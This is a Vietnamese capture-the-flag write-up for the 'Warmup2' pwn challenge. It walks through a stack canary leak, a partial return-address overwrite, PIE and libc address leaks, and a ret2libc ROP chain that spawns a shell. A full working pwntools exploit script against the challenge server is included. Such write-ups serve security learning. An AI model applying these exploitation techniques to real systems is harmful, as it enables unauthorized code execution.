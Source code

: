 # Warmup2 (Pwn)

<figure><img src="../../.gitbook/assets/2022-08-30-214516_484x592_scrot.png" alt=""><figcaption><p>Challange</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/2022-08-30-221249_267x162_scrot.png" alt=""><figcaption><p>Checksec</p></figcaption></figure>

Decompile bằng Ghidra

```c
undefined8 main(void)

{
  alarm(0x3c);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  vuln();
  return 0;
}
void vuln(void)

{
  long in_FS_OFFSET;
  char input [264];
  long stack_canary;
  
  stack_canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("What\'s your name?");
  read(0,input,4919);
  printf("Hello %s!\n",input);
  puts("How old are you?");
  read(0,input,4919);
  printf("Wow, I\'m %s too!\n",input);
  if (stack_canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Bài này có chứa stack canary, nên phải leak nó trước khi muốn ghi đè địa chỉ trả về.

Hãy để ý đến hàm read, hàm này không chuyển byte `\n` thành byte null. Chuyện gì sẽ xảy ra nếu lấp đầy biến input với 264 byte? Vì không có null byte nên hàm printf sẽ hiểu string chưa kết thúc và tiếp tục in dữ liệu sau nó ra -> leak stack canary.

Hãy thử nhập 263 chữ A ( tất nhiên byte thứ 264 sẽ là `\n` )

<figure><img src="../../.gitbook/assets/2022-08-30-220430_1830x229_scrot.png" alt=""><figcaption><p>WTF</p></figcaption></figure>

WTF, sao lại chả leak được gì?

Khi mình kiểm tra stack canary hóa ra byte đầu tiên của nó luôn là null

<figure><img src="../../.gitbook/assets/2022-08-30-220643_800x369_scrot.png" alt=""><figcaption></figcaption></figure>

Vậy nên ta sẽ ghi đè luôn byte đầu tiên của stack canary là `\n`&#x20;

<figure><img src="../../.gitbook/assets/2022-08-30-220929_1841x351_scrot.png" alt=""><figcaption><p>Đúng như mong đợi</p></figcaption></figure>

Viết script để xuất leak steak canary

```python
p.recv()
z(1)#slepp
p.sendline(b"A"*264)
z(1)
p.recvuntil(b"A"*264+b"\n")
z(1)
leak=p.recvuntil(b"\n")[0:7][::-1]+b"\x00"
log.info(f"Leak canary: {leak.hex()}")
canary=int(leak.hex(),16)#leak stack canary
```

Giờ có được canary rồi, ghi đè saved rip để đi đến đâu? Binary này bật PIE nên ta cần leak thêm địa chỉ của hàm nào đó trong binary. Mình nghĩ khả dĩ nhất là địa chỉ trả về của vuln vì nó cũng ở trong stack (ngay sau canary).

Nhưng giờ chỉ còn thực thi thêm một lần read. Không thể thay đổi canary nhưng canary lại chứa null byte -> không thể leak địa chỉ trả về.

Giờ chỉ còn cách quay lại gọi hàm vuln một lần nữa. Mình cho trả về lúc call hàm vuln trong hàm main thêm một lần nữa vì đơn giản chỉ cần thay đổi 1 byte ( `e2` -> `dd` ).

<figure><img src="../../.gitbook/assets/2022-08-30-222106_660x332_scrot.png" alt=""><figcaption></figcaption></figure>

Script để leak

```python
padding=b"A"*264+p64(canary)+b"B"*8

p.send(padding+b"\xdd")#ret2 call vuln
z(1)
p.recvuntil(b"A"*264)
z(1)
p.send(b"A"*(264+8))
z(1)
p.recvuntil(b"A"*(264+8))
z(1)
p.recvuntil(b"B"*8)
z(1)
leak1=p.recvuntil(b'\n')[0:6][::-1].hex()#leak main
log.info(f"Leak *main+68: 0x{leak1}")

main=int(leak1,16)-68
```

<figure><img src="../../.gitbook/assets/2022-08-30-223235_1819x330_scrot.png" alt=""><figcaption><p>It works!</p></figcaption></figure>

Có được địa chỉ main rồi giờ mình sẽ gọi puts\_plt(... got) để leak libc.

```python
main=int(leak1,16)-68
pop_rdi=main+181
puts_got  =main+e.got["puts"]  -e.sym["main"]
printf_got=main+e.got["printf"]-e.sym["main"]
read_got  =main+e.got["read"]  -e.sym["main"]
puts_plt  =main+e.plt["puts"]  -e.sym["main"]
vuln      =main+e.sym["vuln"]  -e.sym["main"]
p.sendline(padding+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(pop_rdi)+p64(printf_got)+p64(puts_plt)+p64(pop_rdi)+p64(read_got)+p64(puts_plt)+p64(vuln))
z(1)
p.recvuntil(b"too!\n")
z(1)
leak_puts=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"puts: 0x{leak_puts}")
leak_printf=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"printf: 0x{leak_printf}")
leak_read=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"read: 0x{leak_read}")
```

<figure><img src="../../.gitbook/assets/2022-08-30-223729_720x247_scrot.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2022-08-30-223817_1279x434_scrot.png" alt=""><figcaption></figcaption></figure>

Mình sẽ thử với libc6\_2.31-0ubuntu9.9\_amd64.so trước.

Full script

```python
#!/usr/bin/python
from pwn import *
from time import sleep as z
e=ELF("./chal")
libc=ELF("./libc6_2.31-0ubuntu9.9_amd64.so")
#context.log_level='debug'
p=remote("warmup2.ctf.maplebacon.org",1337)
p.recv()
z(1)
p.sendline(b"A"*264)
z(1)
p.recvuntil(b"A"*264+b"\n")
z(1)
leak=p.recvuntil(b"\n")[0:7][::-1]+b"\x00"
log.info(f"Leak canary: {leak.hex()}")
canary=int(leak.hex(),16)#leak stack canary
padding=b"A"*264+p64(canary)+b"B"*8

p.send(padding+b"\xdd")#ret2 call vuln
z(1)
p.recvuntil(b"A"*264)
z(1)
p.send(b"A"*(264+8))
z(1)
p.recvuntil(b"A"*(264+8))
z(1)
p.recvuntil(b"B"*8)
z(1)
leak1=p.recvuntil(b'\n')[0:6][::-1].hex()#leak main
log.info(f"Leak *main+68: 0x{leak1}")

main=int(leak1,16)-68
pop_rdi=main+181
puts_got  =main+e.got["puts"]  -e.sym["main"]
printf_got=main+e.got["printf"]-e.sym["main"]
read_got  =main+e.got["read"]  -e.sym["main"]
puts_plt  =main+e.plt["puts"]  -e.sym["main"]
vuln      =main+e.sym["vuln"]  -e.sym["main"]
p.sendline(padding+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(pop_rdi)+p64(printf_got)+p64(puts_plt)+p64(pop_rdi)+p64(read_got)+p64(puts_plt)+p64(vuln))
z(1)
p.recvuntil(b"too!\n")
z(1)
leak_puts=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"puts: 0x{leak_puts}")
leak_printf=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"printf: 0x{leak_printf}")
leak_read=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"read: 0x{leak_read}")
system=int(leak_puts,16)+libc.sym["system"]-libc.sym["puts"]
binsh =int(leak_puts,16)+next(libc.search(b"/bin/sh"))-libc.sym["puts"]
p.sendline(b"1")
z(1)
p.sendline(padding+p64(pop_rdi)+p64(binsh)+p64(vuln+180)+p64(system))

p.interactive()
```

<figure><img src="../../.gitbook/assets/2022-08-30-230036_1832x633_scrot.png" alt=""><figcaption></figcaption></figure>

Flag :`maple{we_have_so_much_in_common}`

